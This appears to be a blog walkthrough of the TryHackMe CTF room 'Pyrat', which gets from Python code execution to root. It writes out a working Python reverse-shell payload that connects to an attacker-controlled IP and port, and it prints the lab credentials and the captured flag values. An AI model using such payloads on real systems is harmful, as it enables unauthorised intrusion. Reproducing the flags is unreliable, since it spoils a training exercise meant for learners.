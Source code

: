 ```yaml
---
title: "THM Pyrat Walkthrough"
date: "2025-04-09"

layout: ../../layouts/PostLayout.astro
description: "Detail walkthrough on tryhackme machine pyrat."

img_path : "/images/pyrat/theme.png"
img_alt: "theme picture"
---
```


"<span style="color:yellow">*Becoming a hacker will take intelligence, practice, dedication, and hard work. Therefore, you have to learn to distrust attitude and respect competence of every kind.*</span>"


![cover](/images/pyrat/cover.png)

### Room Information
- Room Name: Pyrat
- Difficulty Level: Easy
- Room type: Challenges(CTF)

![cover](/images/pyrat/machine.png)

### Reconnaissance
![cover](/images/pyrat/info.png)

Let’s run nmap and check what ports are open.

![cover](/images/pyrat/nmap.png)

I discovered 2 open ports: 22(ssh) and 8000(SimpleHTTP/0.6 Python/3.11.2). let’s check the website with port 8000.

![cover](/images/pyrat/website.png)

It shows try more basic connection, meaning try netcat.

![cover](/images/pyrat/netcat.png)

Whichever method I use is not defined. This error is related to python. I can run that basic python script since simpleHTTP server is running let’s try python code execution.

![cover](/images/pyrat/pycode.png)

Search for exploiting python code execution in web

![cover](/images/pyrat/norespone.png)

No response so try with eval() function.

![cover](/images/pyrat/invalid.png)

It showed an invalid syntax error, which means our code was interpreted with python.

![cover](/images/pyrat/wwwdata.png)

We got code execution as www-data. Now let’s try to get the reverse shell. For that search reverse shell cheat sheet. 

![cover](/images/pyrat/cheatsheet.png)

From the ipv4, copy the second line, modify the ip and port number as yours, and use execl() function. The command will look like the following:

exec('import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')

Before running this command we have to start nc.

![cover](/images/pyrat/exec.png)

![cover](/images/pyrat/connected.png)

Run this command: python3 -c 'import pty;pty.spawn("/bin/bash")'

### Now Let’s get to the User. 

![cover](/images/pyrat/search.png)

We don’t have permission to ‘think’ folder but found a git repo on /opt/dev directory. 

![cover](/images/pyrat/git.png)

When the credential for the user ‘think’.

![cover](/images/pyrat/cred.png)

Username: think <br>
Password: TH1NKINGPirate$


With those credentials let’s login to ssh.

![cover](/images/pyrat/think.png)

![cover](/images/pyrat/user.png)

Finally, boom…..we got the user flag. 

### Privilege Escalation
The next task is to get the root.txt flag. It isn’t as easy as I thought.  User think can’t run sudo on the pyrat machine.

![cover](/images/pyrat/su.png)

If that is the case we need to find different way. So let’s use git repo. Earlier we could run it. Let’s run from think.

![cover](/images/pyrat/log.png)

![cover](/images/pyrat/diff.png)

There is a ‘get_this_enpoint’ function, let’s check that shell function.

![cover](/images/pyrat/shell.png)

Shell function also gives access as www-data that we already have. So let’s write a python script to  find some_endpoint

![cover](/images/pyrat/script.png)

Now let’s run it

![cover](/images/pyrat/admin.png)

admin is one of the endpoint, so let’s find the password for admin.

![cover](/images/pyrat/password.png)

![cover](/images/pyrat/pass.png)

We got the password for admin that is abc123. 

Next step is start netcat and type admin and then password

![cover](/images/pyrat/root.png)

Now I have root access. 

![cover](/images/pyrat/rootflag.png)

Finally, I got the root.txt


### Flag Captured
user.txt flag: 996bdb1f619a68361417cabca5454705<br>
root.txt flag:  ba5ed03e9e74bb98054438480165e221

